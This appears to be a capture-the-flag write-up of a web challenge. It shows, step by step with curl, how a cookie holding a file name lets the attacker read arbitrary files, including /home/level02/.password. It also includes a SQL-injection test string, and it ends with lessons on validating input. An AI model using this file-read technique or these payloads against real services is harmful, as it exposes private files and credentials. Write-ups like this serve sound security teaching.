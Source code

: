## Level 2: always validate all types of user input

As the message of the day explains,
the next challenge is a web-based vulnerability.
Let's start by opening the URL to see what the page does:

    curl localhost:8002

The page has a simple form with two input fields:
name and age.
Let's play with that a little bit,
especially by entering invalid values,
and see what happens:
```
curl localhost:8002 -d name=jack
curl localhost:8002 -d name=jack -d age=3
curl localhost:8002 -d name=jack -d age=x
curl localhost:8002 -d age=3
curl localhost:8002 -d name="';select * from users" -d age=x
```

The page greets us back if we enter values in both fields.
That doesn't really help us.
But we haven't checked all possible types of user input.
What about cookies, for example?
Most websites store some data in cookies,
for example a session id,
so that users don't need to login repeatedly.

How do cookies really work?
Cookies are usually set by the server,
by adding a `Set-Cookie` value in the header of an HTTP response.
Once a browser received a cookie,
it will resend it to the server in every future request until it expires,
by setting the exact same value in the `Cookie` header.
That's what a well-behaving browser does.
But nothing prevents us from setting it to something else.

Enough speculation,
let's see if this website uses cookies.
One way to do that is adding the `-v` flag to see detailed output.
A cleaner way is to save the header in a file using the `--dump-header` or its shorter alias `-D`:
```
$ curl localhost:8002 -D header.txt
$ cat header.txt 
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 462
Set-Cookie: user_details=amzyYydipxZeZoVg.txt; Path=/
Server: Werkzeug/0.9-dev Python/2.7.3
Date: Thu, 26 Sep 2013 05:49:09 GMT
```

As you can see the `Set-Cookie` line,
the website sets a cookie with name `user_details`,
and a seemingly random value.
Let's send the cookie back and see what happens:

    curl localhost:8002 --cookie user_details=amzyYydipxZeZoVg.txt

Notice in the response an extra line above the input form:

    <p>127.0.0.1 is using curl/7.21.7 (i686-pc-linux-gnu) libcurl/7.21.7 OpenSSL/1.0.0d zlib/1.2.5 libssh2/1.2.7</p>

Actually this happens to be an information about us, the client:
`127.0.0.1` is our IP address and the text after "is using" is the `User-Agent` string of our "browser", `curl`.

What happens if we are not a well-behaving client and set the cookie to something else?

    curl localhost:8002 --cookie user_details=x

We get a `500 Internal Server Error`.
That doesn't help us much,
but we can do better than shooting randomly.
Notice that the value set by the server looks suspiciously like a filename,
thanks to its `.txt` extension.
What if we set the value to a valid file that actually exists in the filesystem?

    echo hello > /tmp/x
    curl localhost:8002 --cookie user_details=/tmp/x

Sweet! The page prints the contents of the file!
Specifying the real file we're after probably works too:

    curl localhost:8002 --cookie user_details=/home/level02/.password

Bingo!
We managed to misuse the web service to do something it was clearly not intended for:
print the content of a file that's supposed to be private to the owner of the process,
user `level02`.
And we didn't even need to look at the source code!

### Lessons to learn

- Don't trust user input.
  You have to validate all possible kinds of external input:
  form fields, cookies, command line arguments,
  anything your programs might receive from its users.

- Take a long hard look at web services you have ever written.
  What will happen if you feed them with invalid input?
  Are you sure there are no input fields or cookies that can be misused?

